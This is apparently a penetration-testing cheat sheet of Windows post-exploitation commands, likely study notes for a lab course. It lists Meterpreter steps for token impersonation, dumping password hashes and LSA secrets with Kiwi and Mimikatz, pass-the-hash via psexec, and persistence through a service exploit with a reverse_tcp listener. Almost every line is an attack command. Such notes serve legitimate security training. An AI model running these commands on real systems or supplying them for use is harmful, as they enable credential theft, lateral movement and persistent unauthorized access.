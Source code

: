 #### TOKEN IMPERSONATION

```bash
# Privilege Escalation - Meterpreter
getuid
getprivs
hashdump
load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
ps
migrate <PID>
hashdump
```

#### DUMP HASHES

```bash
# Kiwi - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# Mimikatz - Meterpreter
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

```bash
# PASS THE HASH - PSExec
hashdump
exit
search psexec
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
```

#### PERSISTENCE

```bash
# Administrative Privileges required!

# RDP - Meterpreter
background

use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set SESSION 1

# Regain access
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_IP>
```